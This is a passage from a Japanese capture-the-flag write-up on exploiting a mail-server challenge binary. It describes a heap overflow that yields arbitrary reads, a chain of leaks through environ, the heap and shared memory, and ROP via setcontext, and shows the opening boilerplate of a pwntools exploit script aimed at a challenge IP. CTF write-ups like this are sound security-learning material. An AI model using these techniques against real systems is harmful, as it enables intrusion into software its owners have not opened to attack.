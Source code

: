 inboxを先に表示して、ここにペイロードを仕込んでおくことで、超過したときにここがコピーされるようになります。

コピー先は、メッセージバッファと、直下にメールの構造体`mail_message`が来るようになります。

```
0xbf1390:       0x0000000000000000      0x0000000000000031 
0xbf13a0:       0x00000000004056c8      0x0000000000bf0f90 // vtable, message
0xbf13b0:       0x0000000000000004      0x0000000000bf0f60 // messageSize, to 
```

`to`に適当な文字列のアドレスをあてて、その文字列でログインするようにします。vtableは消さない限りは使わないのでなんでもOKです。これでアドレスが既知のところはなんでも読めるようになりました。

書き込みがやっかいです。好きなところに書き込むためにはいくつかの工夫がいりそうですが、ヒープオーバーフローが起こった時のヒープのレイアウトを考えたくないです。no pieのpartial relroですがぐっと我慢します。

一方でメッセージは素直に共有メモリに乗るので、これを使わない手はないでしょう。このアドレスはヒープにあります。ヒープのアドレスはスタック上にあり、libcはgotリークから分かるので、environ->heap->shared memの順に同じ手でリークしていけばよいです。

最後は都合よくrdxがヒープをさしているので、setcontextを使ってheapでropします。

raceで複数回リークを要求されるときに、元のレイアウトを保ったままというのが想像できず、なかなか手が動きませんでした。おもしろい問題でした。

```python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']
#context.log_level = 'debug'

TARGET = './mail_patched'
HOST = '34.146.156.91'
PORT = 10004

elf = ELF(TARGET)
def start():
	if not args.R:
		print("local")
		return process(TARGET)
		# return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
		# return process(TARGET, stdout=process.PTY, stdin=process.PTY)
	else:
		print("remote")
		return remote(HOST, PORT)

def get_base_address(proc):
	lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
	for line in lines :
		if TARGET[2:] in line.split('/')[-1] :
			break
	return int(line.split('-')[0], 16)
	# return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
	script = "handle SIGALRM ignore\n"
	PIE = get_base_address(proc)
	script += "set $base = 0x{:x}\n".format(PIE)
	for bp in breakpoints:
		script += "b *0x%x\n"%(PIE+bp)
	script += "c"
	gdb.attach(proc, gdbscript=script)

def debug_child(proc, breakpoints):
	script = "handle SIGALRM ignore\n"
	PIE = get_base_address(proc)
	script += "set $base = 0x{:x}\n".format(PIE)
	for bp in breakpoints:
		script += "b *0x%x\n"%(PIE+bp)
	script += "c"
```